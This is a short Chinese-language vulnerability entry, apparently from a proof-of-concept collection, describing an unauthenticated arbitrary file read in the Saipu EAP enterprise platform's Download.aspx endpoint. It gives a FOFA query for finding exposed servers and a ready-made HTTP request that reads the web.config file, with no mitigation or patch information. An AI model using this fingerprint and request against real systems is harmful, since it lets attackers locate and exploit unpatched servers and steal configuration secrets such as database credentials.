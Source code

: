 # 赛普EAP企业适配管理平台Download.aspx任意文件读取漏洞

赛普EAP企业适配管理平台 Download.aspx 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统文件，造成信息泄露。

## fofa

```kotlin
body="IDWebSoft/"
```

## poc

```javascript
GET /IDWebSoft/Common/Handler/Download.aspx?FileName=web.config&FileTitle= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36
Content-Type:application/x-www-form-urlencoded
Accept: */*
Connection: Keep-Alive
```

![image-20241101195031794](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011950858.png)